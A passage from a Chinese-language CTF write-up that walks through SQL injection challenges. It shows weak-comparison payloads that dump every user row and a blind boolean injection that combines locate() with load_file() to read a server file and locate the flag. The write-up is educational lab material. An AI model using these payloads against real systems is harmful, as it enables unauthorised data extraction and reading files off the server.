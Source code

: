 这里限制密码只能为数字，但是这里是弱比较， `0==admin`

用户名处也正则限制了很多，但还是有很多姿势。

```0
select * from users where first_name=0; 
select * from users where first_name=1<1; 
select * from users where first_name=1=0; 
```

可以查询出所有数据，为什么呢？逻辑结构，首先`first_name=1` 为假也就是0 ，然后`0<1` 就为真，所以可以查。

这样也可以，反引号列名

```
select * from users where first_name=`first_name`; 
```

所以此题payload

```
0/0
1<1/0
0=0/0
```

## web189~locate定位函数

提示：

```
flag在api/index.php文件中
```

访问`http://54e509b4-af7d-4ba0-95cd-c84c9a7d0886.chall.ctf.show/api/index.php`

有两种状态,查询失败和密码错误。

利用这两种状态来读取文件判断flag具体在哪个位置。

* MySQL定位函数

  > - `INSTR(str,substr)` –> 返回字符串 str 中子字符串的第一个出现位置，否则为0
  > - `FIND_IN_SET(str,strlist)` –> 返回字符串 str 中子字符串的第一个出现位置，否则为0
  > - `LOCATE(substr,str,pos)` –> 返回字符串 str中子字符串substr的第一个出现位置, 起始位置在pos。如若substr 不在str中，则返回值为0
  > - `POSITION(substr IN str)` –> 返回子串 substr 在字符串 str 中第一次出现的位置。如果子串 substr 在 str 中不存在，返回值为 0

构造payload:

```
username=username=if(locate("flag{",load_file('/var/www/html/api/index.php'))>0,0,1)&password=1
```

页面返回

```
{"code":0,"msg":"\u5bc6\u7801\u9519\u8bef","count":0,"data":[]}
```

说明文件中确实存在flag.

写个脚本：
